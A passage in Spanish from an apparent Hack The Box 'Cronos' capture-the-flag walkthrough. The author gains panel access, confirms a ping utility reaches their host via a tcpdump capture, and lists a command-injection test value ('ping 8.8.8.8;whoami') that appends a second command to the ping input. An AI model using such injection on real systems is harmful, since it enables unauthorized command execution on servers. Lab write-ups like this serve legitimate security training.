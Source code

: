 ![](/assets/images/htb-cronos/cronos-hash.png)

Contamos con credenciales de acceso, así que accedemos al panel y tenemos una utilidad que nos permite ejecutar un `traceroute` y un `ping`; como es posible que dicho comando se ejecute a nivel de sistema, primero vamos a probar el `ping` si lo recibimos en nuestra máquina.

![](/assets/images/htb-cronos/cronos-web4.png)

```bash
❯ tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
21:48:18.291432 IP cronos.htb > 10.10.14.27: ICMP echo request, id 7587, seq 1, length 64
21:48:18.291575 IP 10.10.14.27 > cronos.htb: ICMP echo reply, id 7587, seq 1, length 64
^C
2 packets captured
2 packets received by filter
0 packets dropped by kernel
```

Recibimos la traza ICMP, por lo que podríamos pensar que tenemos la capacidad de ejecutar ciertos comandos aprovechando dicha herramienta.

- `ping 8.8.8.8;whoami`
